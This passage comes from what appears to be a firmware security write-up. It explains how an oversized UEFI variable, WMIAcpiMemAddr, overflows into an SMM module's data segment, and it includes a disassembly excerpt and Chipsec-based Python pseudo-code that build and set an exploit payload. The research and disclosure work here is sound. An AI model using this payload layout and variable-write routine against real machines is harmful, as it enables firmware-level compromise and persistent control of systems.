 It will trigger PatchGuard, but the variable only needs to be deleted and then recreated with the attributes set to `NON_VOLATILE | BOOTSERVICE_ACCESS | RUNTIME_ACCESS` once. After that, it won’t be reset every reboot.

##### [#](#the-result) The Result

If the variable `WMIAcpiMemAddr` is larger than 8 bytes, it will overflow, allowing an attacker to write data to the data segment of the module.

Since `WMIAcpiMemAddr` is controllable by an attacker, the attacker also controls the memory underneath `pWMIAcpiMemAddr`, which includes a lot of great pointers ripe for exploitation:

```
; struct_pWMIAcpiMemAddr *pWMIAcpiMemAddr
.data:000000004AA34710 pWMIAcpiMemAddr dq 0                    ; DATA XREF: SwSmiHandler+E1↑o
.data:000000004AA34710                                         ; SwSmiHandler:loc_4AA3369D↑r
.data:000000004AA34718 pWMIAcpiMemAddrCpy dq 0                 ; DATA XREF: sub_4AA32668:loc_4AA326F9↑r
... SNIP ...
.data:000000004AA34738 ; _EFI_SMM_SYSTEM_TABLE2 *gSmst
.data:000000004AA34738 gSmst_0         dq 0                    ; DATA XREF: sub_4AA32368+41↑o
... SNIP ...
.data:000000004AA34768 ; BOOLEAN gInSmram
.data:000000004AA34768 gInSmram        db 0                    ; DATA XREF: sub_4AA32368:loc_4AA3261F↑o
.data:000000004AA34769                 db    0
.data:000000004AA3476A                 db    0
.data:000000004AA3476B                 db    0
.data:000000004AA3476C                 db    0
.data:000000004AA3476D                 db    0
.data:000000004AA3476E                 db    0
.data:000000004AA3476F                 db    0
.data:000000004AA34770 ; EFI_RUNTIME_SERVICES *gRT
.data:000000004AA34770 gRT             dq 0                    ; DATA XREF: sub_4AA32A08+21↑r
.data:000000004AA34770                                         ; sub_4AA32A08+90↑r ...
.data:000000004AA34778 ; _EFI_SMM_SYSTEM_TABLE2 *gSmst_0
.data:000000004AA34778 gSmst_1         dq 0                    ; DATA XREF: sub_4AA32BDC+C↑r
... LOTS OF ROOM DOWN HERE ...
```

##### [#](#the-exploit) The Exploit

Python pseudo-code using Chipsec:

```
class WMIPayload(ctypes.LittleEndianStructure):
  _pack_ = 1
  _fields_ = [
    ("WmiACPIMemAddress", ctypes.c_uint64),        # 0x0000
    ("WmiACPIMemAddressCpy", ctypes.c_uint64),     # 0x0008
    ("pad_0010", ctypes.c_char * 24),              # 0x0010
    ("gSMST_0", ctypes.c_uint64),                  # 0x0028
    ("pad_0030", ctypes.c_char * 40),              # 0x0030
    ("InSmram", ctypes.c_uint64),                  # 0x0058
    ("gSMRT", ctypes.c_uint64),                    # 0x0060
    ("gSMST_1", ctypes.c_uint64),                  # 0x0068
  ]
    ...

def set_wmi_var(data):
  status = self.cs.helper.set_EFI_variable(
    "WMIAcpiMemAddr",
    "EC87D643-EBA4-4BB5-A1E5-3F3E36B20DA9",
    bytes(data),
    ctypes.sizeof(data),
    7,
  )
```
